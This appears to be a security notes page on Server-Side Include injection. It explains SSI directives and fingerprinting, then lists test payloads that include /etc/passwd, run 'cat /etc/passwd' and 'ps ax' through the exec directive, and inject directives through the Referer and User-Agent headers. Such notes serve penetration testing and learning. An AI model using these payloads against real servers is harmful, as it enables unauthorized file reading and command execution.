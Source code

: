 # SSI (Server Side include)
---
Web servers usually give developers the ability to add small pieces of dynamic code inside static HTML pages, without having to deal with full-fledged server-side or client-side languages.
Server-Side Includes are directives that the web server parses before serving the page to the user. They represent an alternative to writing CGI programs or embedding code using server-side scripting languages
Common SSI implementations provide directives **(commands)** to include external files, to set and print web server CGI environment variables, or to execute external **CGI scripts or system commands**.

SSI can lead to a *Remote Command Execution (RCE),* however most webservers have the `exec` directive disabled by default.

## FingerPrinting
You can verify that SSI directives are enabled is by checking for pages with the `.shtml` extension, which is associated with SSI directives. The use of the `.shtml` extension is not mandatory, so not having found any `.shtml` files doesn’t necessarily mean that the target is not vulnerable to SSI injection attacks.
- Possible input vectors may also include headers and cookies

## Testing
#### Include directive
```txt
<!--#include virtual="/etc/passwd"-->
```
#### echo directive
```txt
<!--#echo var="SHELL"-->
```
#### exec directive
```txt
<!--#exec cmd="cat /etc/passwd"-->
```
The SSI directives can also be injected in the HTTP headers, if the web application is using that data to build a dynamically generated page:
```txt
GET / HTTP/1.1
Host: www.example.com
Referer: <!--#exec cmd="/bin/ps ax"-->
User-Agent: <!--#include virtual="/proc/version"-->
```

## References

-   [Nginx SSI module](https://nginx.org/en/docs/http/ngx_http_ssi_module.html)
-   [Apache: Module mod_include](https://httpd.apache.org/docs/current/mod/mod_include.html)
-   [IIS: Server Side Includes directives](https://docs.microsoft.com/en-us/previous-versions/iis/6.0-sdk/ms525185%28v=vs.90%29)
-   [Apache Tutorial: Introduction to Server Side Includes](https://httpd.apache.org/docs/current/howto/ssi.html)
-   [Apache: Security Tips for Server Configuration](https://httpd.apache.org/docs/current/misc/security_tips.html#ssi)
-   [SSI Injection instead of JavaScript Malware](https://jeremiahgrossman.blogspot.com/2006/08/ssi-injection-instead-of-javascript.html)
-   [IIS: Notes on Server-Side Includes (SSI) syntax](https://blogs.iis.net/robert_mcmurray/archive/2010/12/28/iis-notes-on-server-side-includes-ssi-syntax-kb-203064-revisited.aspx)
-   [Header Based Exploitation](https://www.cgisecurity.com/papers/header-based-exploitation.txt)